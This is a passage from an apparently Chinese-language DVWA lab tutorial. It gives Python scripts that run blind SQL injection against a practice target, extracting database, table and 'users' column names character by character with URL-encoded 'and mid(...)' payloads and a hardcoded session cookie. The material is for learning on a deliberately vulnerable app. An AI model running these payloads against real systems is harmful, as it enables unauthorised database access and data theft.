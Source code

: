 ``````
                #url="%27+and+mid%28database%28%29%2C"+str(i)+"%2C1%29%3D%27"+str(j)+"%27%23"
                #url="%27+and+mid%28%28select+schema_name+from+information_schema.schemata+limit+"+str(k)+"%2C1%29%2C"+str(i)+"%2C1%29%3D%27"+str(j)+"%27%23"
                url="%27+and+mid%28%28select+table_name+from+information_schema.tables+where+table_schema%3Ddatabase%28%29+limit+"+str(k)+"%2C1%29%2C"+str(i)+"%2C1%29%3D%27"+str(j)+"%27%23"
                #' and mid((select schema_name from information_schema.schemata limit 0,1),1,1)='i'#
                try:
                    rp = urllib.request.Request(urlhead + url + end, headers=header)
                    respon = urllib.request.urlopen(rp)
                    html = respon.read().decode('utf-8')
                    if "User ID exists in the database." in html:
                        a+=j
                        print(a)
                        c = 0
                        break
                except:
                    continue
        c += 1
```

![1559652578654](assets/1559652578654.png)

#### 6.2.1.4 查询数据库的表的全部字段

```python
"""
@Product:DVWA 
@Author:Aixic
@create：2019-06-04-19:33
"""
import urllib.request

header={'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36'
    ,'Cookie':'PHPSESSID=248dmjg65dksvfvf8kk0k7vqj0; security=low'}
payload="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_{}"
urlhead="http://192.168.123.20/vulnerabilities/sqli_blind/?id=1"
end="&Submit=Submit#"
#1%27+and+mid%28database%28%29%2C1%2C1%29%3D%27d%27%23
if __name__ == '__main__':
    a=""
    c = 0
    for k in range(0,20):
        a+="\r\n"+str(k)+":"
        if c==2:
            print("结束了")
            exit()
        for i in range(1,20):
            for j in payload:
                #url="%27+and+mid%28database%28%29%2C"+str(i)+"%2C1%29%3D%27"+str(j)+"%27%23"
                #url="%27+and+mid%28%28select+schema_name+from+information_schema.schemata+limit+"+str(k)+"%2C1%29%2C"+str(i)+"%2C1%29%3D%27"+str(j)+"%27%23"
                #url="%27+and+mid%28%28select+table_name+from+information_schema.tables+where+table_schema%3Ddatabase%28%29+limit+"+str(k)+"%2C1%29%2C"+str(i)+"%2C1%29%3D%27"+str(j)+"%27%23"
                url="%27+and+mid%28%28select+column_name+from+information_schema.columns+where+table_name%3D%27users%27+limit+"+str(k)+"%2C1%29%2C"+str(i)+"%2C1%29%3D%27"+str(j)+"%27%23"
                #' and mid((select schema_name from information_schema.schemata limit 0,1),1,1)='i'#
                try:
                    rp = urllib.request.Request(urlhead + url + end, headers=header)
                    respon = urllib.request.urlopen(rp)
                    html = respon.read().decode('utf-8')
``````